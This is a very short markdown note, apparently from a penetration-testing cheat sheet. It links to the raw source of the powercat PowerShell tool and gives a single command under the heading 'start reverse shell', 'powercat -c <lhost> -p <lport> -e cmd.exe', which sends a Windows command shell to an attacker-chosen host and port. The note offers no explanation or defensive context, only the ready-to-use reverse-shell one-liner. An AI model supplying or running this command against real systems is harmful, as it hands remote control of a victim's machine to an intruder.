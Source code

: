 ### source
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1  

### start reverse shell
```
powercat -c <lhost> -p <lport> -e cmd.exe
```

